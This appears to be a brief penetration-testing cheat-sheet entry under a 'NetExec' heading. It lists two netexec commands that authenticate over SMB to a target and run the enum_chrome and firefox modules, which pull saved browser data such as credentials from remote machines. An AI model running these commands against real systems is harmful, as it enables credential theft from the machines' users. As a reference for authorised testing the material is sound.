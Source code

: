 # Unix Shell

## NetExec

```
$ netexec smb <IP> -u '<username>' -p '<password>' --local-auth -M enum_chrome
```

```
$ netexec smb <IP> -u '<username>' -p '<password>' --local-auth -M firefox
```